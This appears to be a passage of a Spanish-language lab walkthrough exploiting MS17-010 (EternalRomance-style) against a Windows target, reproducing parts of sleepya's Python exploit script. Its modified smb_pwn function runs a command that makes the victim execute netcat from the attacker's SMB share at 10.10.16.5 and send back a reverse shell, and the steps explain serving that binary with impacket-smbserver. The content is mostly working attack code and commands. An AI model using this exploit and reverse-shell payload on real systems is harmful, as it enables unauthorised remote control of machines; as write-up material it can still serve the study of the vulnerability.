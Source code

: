```python
#!/usr/bin/python
from impacket import smb, smbconnection
from mysmb import MYSMB
from struct import pack, unpack, unpack_from
import sys
import socket
import time

'''
MS17-010 exploit for Windows 2000 and later by sleepya

Note:
- The exploit should never crash a target (chance should be nearly 0%)
- The exploit use the bug same as eternalromance and eternalsynergy, so named pipe is needed

Tested on:
- Windows 2016 x64
- Windows 10 Pro Build 10240 x64
- Windows 2012 R2 x64
- Windows 8.1 x64
- Windows 2008 R2 SP1 x64
- Windows 7 SP1 x64
- Windows 2008 SP1 x64
- Windows 2003 R2 SP2 x64
- Windows XP SP2 x64
- Windows 8.1 x86
- Windows 7 SP1 x86
- Windows 2008 SP1 x86
- Windows 2003 SP2 x86
- Windows XP SP3 x86
- Windows 2000 SP4 x86
'''

USERNAME = 'guest'
PASSWORD = ''

```
<br>
2- Hacemos que la máquina se conecte a nuestro servidor samba donde estamos compartiendo un binario de netcat, el cual ejecutaremos enviándonos una reverse shell.

```python
def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()
        
#       print('creating file c:\\pwned.txt on the target')
#       tid2 = smbConn.connectTree('C$')
#       fid2 = smbConn.createFile(tid2, '/pwned.txt')
#       smbConn.closeFile(tid2, fid2)
#       smbConn.disconnectTree(tid2)

        #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
        service_exec(conn, r'cmd /c \\10.10.16.5\smbFolder\nc64.exe -e cmd 10.10.16.5 1234')
        # Note: there are many methods to get shell over SMB admin session
        # a simple method to get shell (but easily to be detected by AV) is
        # executing binary generated by "msfvenom -f exe-service ..."

def smb_send_file(smbConn, localSrc, remoteDrive, remotePath):
        with open(localSrc, 'rb') as fp:
                smbConn.putFile(remoteDrive + '$', remotePath, fp.read)

```
<br>
3- Usando `impacket-smbserver` nos compartimos el binario de nc.